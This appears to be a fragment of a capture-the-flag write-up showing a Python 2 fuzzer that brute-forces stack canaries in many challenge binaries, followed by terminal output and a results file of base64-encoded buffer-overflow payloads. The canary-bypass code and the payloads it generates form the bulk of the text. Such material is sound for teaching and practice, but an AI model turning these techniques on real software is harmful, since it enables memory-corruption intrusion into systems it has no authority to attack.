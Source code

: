 ```
            stdout = p.communicate(payload)[0]
            if 'canary' in stdout:
                print "[*] Canary bypassed with payload ",i,cbytes
                crashpayload = base64.b64encode(payload[:-1] + "D" * 34 + "\n")
                canaries[k].append(crashpayload)
                dbout.write(k+":"+repr(canaries[k])+"\n")
            break
dbout.close()    
print "[*] Data written to hakdb.txt"

```



```
vagrant@crs:~/cuts$ ./cuts.py 
[*] Extracting challenges...
[*] Loading all canaries...
[*] Loaded canaries for 1002 files
[*] Fuzzing all files...
[*] Fuzzing 1000_cuts/hard-stornoway-with-muhammara-on-hubuz
[*] Hacking detected at len 124
[*] Canary bypassed with payload  124 fPYv
[*] Fuzzing 666_cuts/medium-drisheen-with-twekesbury-on-cholermus
[*] Hacking detected at len 67
[*] Canary bypassed with payload  67 -qLz
[*] Fuzzing 1000_cuts/hard-oxford-with-duckefett-on-bazin
[*] Hacking detected at len 69
[*] Canary bypassed with payload  69 ilVc
[*] Fuzzing 334_cuts/easy-krakowska-with-mayonnaise-on-challah
[*] Hacking detected at len 33
[*] Canary bypassed with payload  33 gV55
[*] Fuzzing 1000_cuts/hard-haggis-with-bernaise-on-doubledown
[*] Hacking detected at len 93
[*] Canary bypassed with payload  93 7eqv
[*] Data written to hakdb.txt
vagrant@crs:~/cuts$ wc -l hakdb.txt 
1000 hakdb.txt
1000_cuts/hard-stornoway-with-muhammara-on-hubuz:['fPYvGPxCuNk=', 124, 'QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQWZQWXZDRERERERERERERERERERERERERERERERERERERERERERERAo=']
666_cuts/medium-drisheen-with-twekesbury-on-cholermus:['-qLzOEjn', 67, 'QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQS1xTHpDRERERERERERERERERERERERERERERERERERERERERERERAo=']
1000_cuts/hard-oxford-with-duckefett-on-bazin:['ilVcuWGDvztdUgVqjw==', 69, 'QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBaWxWY0NERERERERERERERERERERERERERERERERERERERERERERECg==']
334_cuts/easy-krakowska-with-mayonnaise-on-challah:['gV55iet42uI=', 33, 'QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBZ1Y1NUNERERERERERERERERERERERERERERERERERERERERERERECg==']
666_cuts/medium-snorker-with-marierose-on-potbrood:['x_SxyJe8MQ==', 80, 'QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUF4X1N4Q0REREREREREREREREREREREREREREREREREREREREREREQK']

```
